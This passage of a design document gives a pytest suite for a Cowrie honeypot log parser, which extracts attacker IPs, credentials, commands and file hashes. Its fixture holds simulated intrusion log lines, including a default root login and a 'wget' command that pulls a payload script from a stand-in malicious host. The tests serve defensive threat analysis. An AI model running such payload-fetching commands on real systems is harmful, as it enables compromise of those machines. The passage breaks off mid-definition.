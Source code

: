 #### 5.2 Testes Prioritários

##### A. `test_cowrie_parser.py`
```python
"""
Test suite for Cowrie JSON Parser.
Ensures accurate extraction of TTPs and IoCs from honeypot logs.
"""
import pytest
from pathlib import Path
from datetime import datetime
from backend.services.reactive_fabric_analysis.parsers import CowrieJSONParser


@pytest.fixture
def sample_cowrie_log(tmp_path: Path) -> Path:
    """Create sample Cowrie log file."""
    log_file = tmp_path / "cowrie.json"
    log_file.write_text('''
{"eventid": "cowrie.login.success", "username": "root", "password": "toor", "src_ip": "45.142.120.15", "timestamp": "2025-10-12T20:00:00.000Z"}
{"eventid": "cowrie.command.input", "input": "uname -a", "timestamp": "2025-10-12T20:00:05.000Z"}
{"eventid": "cowrie.command.input", "input": "wget http://malicious.com/payload.sh", "timestamp": "2025-10-12T20:00:10.000Z"}
{"eventid": "cowrie.session.file_download", "shasum": "5d41402abc4b2a76b9719d911017c592", "timestamp": "2025-10-12T20:00:15.000Z"}
''')
    return log_file


@pytest.mark.asyncio
async def test_cowrie_parser_extracts_credentials(sample_cowrie_log: Path):
    """Test Cowrie parser extracts credentials correctly."""
    parser = CowrieJSONParser()
    result = await parser.parse(sample_cowrie_log)
    
    assert result["attacker_ip"] == "45.142.120.15"
    assert ("root", "toor") in result["credentials"]
    assert len(result["credentials"]) == 1


@pytest.mark.asyncio
async def test_cowrie_parser_extracts_commands(sample_cowrie_log: Path):
    """Test Cowrie parser extracts executed commands."""
    parser = CowrieJSONParser()
    result = await parser.parse(sample_cowrie_log)
    
    assert "uname -a" in result["commands"]
    assert "wget http://malicious.com/payload.sh" in result["commands"]
    assert len(result["commands"]) == 2


@pytest.mark.asyncio
async def test_cowrie_parser_extracts_file_hashes(sample_cowrie_log: Path):
    """Test Cowrie parser extracts downloaded file hashes."""
    parser = CowrieJSONParser()
    result = await parser.parse(sample_cowrie_log)
    
    assert "5d41402abc4b2a76b9719d911017c592" in result["file_hashes"]


@pytest.mark.asyncio
async def test_cowrie_parser_handles_malformed_lines(tmp_path: Path):
```
